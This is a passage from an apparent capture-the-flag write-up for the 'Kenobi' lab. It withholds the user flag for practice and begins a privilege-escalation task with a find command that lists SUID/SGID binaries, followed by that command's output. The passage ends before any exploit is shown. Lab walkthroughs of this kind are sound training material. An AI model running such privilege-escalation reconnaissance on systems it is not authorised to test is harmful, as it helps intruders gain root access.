 ![Untitled](<../Kenobi/images/Untitled 7.png>)

> Question11: What is Kenobi's user flag (/home/kenobi/user.txt)?
>
> <img src="../Kenobi/images/Untitled 8.png" alt="Untitled" data-size="original">
>
> * i’m sorry for hiding the flag, but you should get it by yourself to practice

***

## Task4: Privilege Escalation with Path Variable Manipulation

*   Let’s search for any SUID or SGID file using `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

    ```
    kenobi@kenobi:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    -rwsr-xr-x 1 root root 94240 May  8  2019 /sbin/mount.nfs
    -rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
    -rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
    -rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
    -rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
    -rwxr-sr-x 1 root utmp 434216 Feb  7  2016 /usr/bin/screen
    -rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
